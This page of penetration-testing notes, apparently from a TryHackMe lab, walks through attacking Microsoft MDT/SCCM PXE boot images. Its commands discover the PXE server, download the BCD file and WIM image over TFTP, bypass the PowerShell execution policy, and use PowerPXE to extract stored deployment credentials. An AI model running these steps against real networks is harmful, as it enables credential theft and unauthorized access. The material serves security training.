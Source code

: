
## General

MDT (Microsoft Deployment Toolkit) and SCCM (System Center Configuration Manager) are tools that are used to deploy and manage operating systems, applications, and other software in a network environment. A PXE (Preboot eXecution Environment) boot image is a type of boot image that is used to boot a computer over the network and perform various tasks, such as installing an operating system.

An attacker may attempt to exploit MDT or SCCM by compromising the PXE boot image and using it to gain unauthorized access to a system. For example, an attacker could modify the PXE boot image to include malicious code or to redirect the computer to a rogue server. If the attacker is successful, they may be able to gain access to the system and potentially compromise it.


## Commands

## PXE Boot Image Retrieval
Discover the DHCP IP (To find the PXE boot server)
```
nmap -sU -p 67 --script=dhcp-discover <network_range>
```
	'---> Network Range ---> /16 /24...

DHCP Explaination
	Dynamic Host Configuration Protocol (DHCP) is a network protocol that is used to enable automatic assignment of IP addresses and other related network configuration parameters to devices on a network. The DHCP server maintains a pool of available IP addresses and assigns them to devices on the network as needed. This helps to simplify network configuration and management, as it allows devices to be connected to the network without the need to manually configure their network settings.

Discover the PXEboot Server (On powershell | Need a windows machine in local network)
```
nslookup   ---> This will start the nslookup utility

set type=ptr
_pxe._tcp.IP_OF_DHCP_PREVIOUSLY_DISCOVER Replace

# If the DHCP server is configured to provide the PXE server's hostname or IP address, `nslookup` will display the result of the query. The output will show the hostname or IP address of the PXE server.
```


Access the webserver
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/63264e3ddce1a8b438a7c8b6d527688c.png)


To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:

SSH Command Prompt (Create directory)
```markup
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

Downloading our BCD file to read the configuration of the MDT server (Powershell)
```markup
C:\Users\THM\Documents\USER> tftp -i <MDT_IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
```
- You will have to lookup THMMDT IP with `nslookup mdt.x.something.com`. 

With the BCD file now recovered, we will be using [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read its contents. 

More about Powerpxe
	Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:

Execute Powerpxe (Note that you need to import that powershell script on the machine)
```markup
powershell -executionpolicy bypass

Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
```markup
PS C:\Users\THM\Documents\am0> tftp -i <MDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
```

## Recovering Credentials from a PXE Boot Image
Exfiltrate stored credentials
```markup
Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```